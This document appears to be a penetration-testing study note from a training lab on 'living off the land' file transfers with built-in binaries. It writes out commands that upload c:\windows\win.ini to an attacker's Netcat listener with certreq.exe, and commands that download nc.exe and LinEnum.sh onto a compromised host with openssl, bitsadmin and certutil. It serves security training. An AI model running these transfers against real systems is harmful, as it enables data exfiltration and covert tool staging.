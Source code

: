 # Living off The Land
- [Living off The Land](#living-off-the-land)
  - [**Using the LOLBAS and GTFOBins Project**](#using-the-lolbas-and-gtfobins-project)
    - [**LOLBAS**](#lolbas)
    - [**Upload win.ini to our Pwnbox**](#upload-winini-to-our-pwnbox)
    - [**File Received in our Netcat Session**](#file-received-in-our-netcat-session)
    - [**GTFOBins**](#gtfobins)
    - [**Create Certificate in our Pwnbox**](#create-certificate-in-our-pwnbox)
    - [**Stand up the Server in our Pwnbox**](#stand-up-the-server-in-our-pwnbox)
    - [**Download File from the Compromised Machine**](#download-file-from-the-compromised-machine)
- [**Other Common Living off the Land tools**](#other-common-living-off-the-land-tools)
    - [**Bitsadmin Download function**](#bitsadmin-download-function)
    - [**File Download with Bitsadmin**](#file-download-with-bitsadmin)
    - [**Download**](#download)
    - [**Certutil**](#certutil)
    - [**Download a File with Certutil**](#download-a-file-with-certutil)

The phrase "Living off the land" was coined by Christopher Campbell [@obscuresec](https://twitter.com/obscuresec) & Matt Graeber [@mattifestation](https://twitter.com/mattifestation) at [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).

The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose. There are currently two websites that aggregate information on Living off the Land binaries:

- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

Living off the Land binaries can be used to perform functions such as:

- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

This section will focus on using LOLBAS and GTFOBins projects and provide examples for download and upload functions on Windows & Linux systems.

---

## **Using the LOLBAS and GTFOBins Project**

[LOLBAS for Windows](https://lolbas-project.github.io/#) and [GTFOBins for Linux](https://gtfobins.github.io/) are websites where we can search for binaries we can use for different functions.

### **LOLBAS**

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

![https://academy.hackthebox.com/storage/modules/24/lolbas_upload.jpg](https://academy.hackthebox.com/storage/modules/24/lolbas_upload.jpg)

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

### **Upload win.ini to our Pwnbox**

```
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

This will send the file to our Netcat session, and we can copy-paste its contents.

### **File Received in our Netcat Session**

```
th1nyunb0y@htb[/htb]$ sudo nc -lvnp 8000
listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If you get an error when running `certreq.exe`, the version you are using may not contain the `-Post` parameter. You can download an updated version [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) and try again.

### **GTFOBins**

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

![https://academy.hackthebox.com/storage/modules/24/gtfobins_download.jpg](https://academy.hackthebox.com/storage/modules/24/gtfobins_download.jpg)

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

We need to create a certificate and start a server in our Pwnbox.

### **Create Certificate in our Pwnbox**

```
th1nyunb0y@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

### **Stand up the Server in our Pwnbox**

```
th1nyunb0y@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Next, with the server running, we need to download the file from the compromised machine.

### **Download File from the Compromised Machine**

```
th1nyunb0y@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

---

# **Other Common Living off the Land tools**

### **Bitsadmin Download function**

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

### **File Download with Bitsadmin**

```powershell
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

### **Download**

```powershell
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

---

### **Certutil**

Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) found that Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.

### **Download a File with Certutil**

```
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```